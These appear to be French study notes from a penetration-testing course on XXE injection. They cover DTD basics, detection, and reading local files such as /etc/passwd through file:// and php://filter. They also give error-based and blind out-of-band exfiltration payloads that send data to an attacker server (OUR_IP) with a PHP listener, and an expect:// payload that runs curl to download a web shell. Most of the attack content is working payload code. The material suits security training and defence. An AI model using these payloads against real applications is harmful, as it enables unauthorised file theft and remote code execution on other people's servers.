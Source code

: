`<`, `>`, `&`, or `"`
`&lt;`, `&gt;`, `&amp;`, `&quot;`
## XML Document Type Definition (DTD)
```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```
`PUBLIC` ou  `SYSTEM` pour un chemin externe
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```


## Identification
Si on peut définir des entités et afficher.  Alors possible de référencer entités externes
Si requête envois du XML
Une application affiche le contenu de `<email>`
`<email>untel@htb.com</email>`
Définir un DTD et le référencer
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
<root>
	<email>
		&company;
	</email>
</root>
```
Si `Inlane Freight` est affiché alors vulnérable.

## JSON
La requête peut être faite en JSON mais accepte XML. Transformer alors en XML [online tool](https://www.convertjson.com/json-to-xml.htm)

## Lecture
Certains charactères ne sont pas permis dans les fichiers `<`/`>`/`&`. utiliser divers filtres PHP
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### CDATA
Permet d'ignorer les charactères spéciaux, mais le joint ne fonctionne pas avec entités externes et internes:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Servir le fichier `xxe.dtd` de joint depuis notre serveur
```xml
<!ENTITY joined "%begin;%file;%end;">
```
### Erreurs
Générer une erreur. Pas toujours fiable: peut avoir limite de charactères ou ne pas afficher charactères spéciaux.
Servir le fichier suivant contenant une erreur
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
Référencer les entités
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
### À l'aveugle
1. Servir le fichier `xxe.dtd` et `index.php`
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
```shell-session
php -S 0.0.0.0:8000
```
2.  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## Exécution de code
`php://expect://id` pour commandes simples qui ne brisent pas la syntax XML. Requière le module `expect`
Sinon, envoyer un remote shell. Remplacer espace par `$IFS`
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
```

## SSRF

## DOS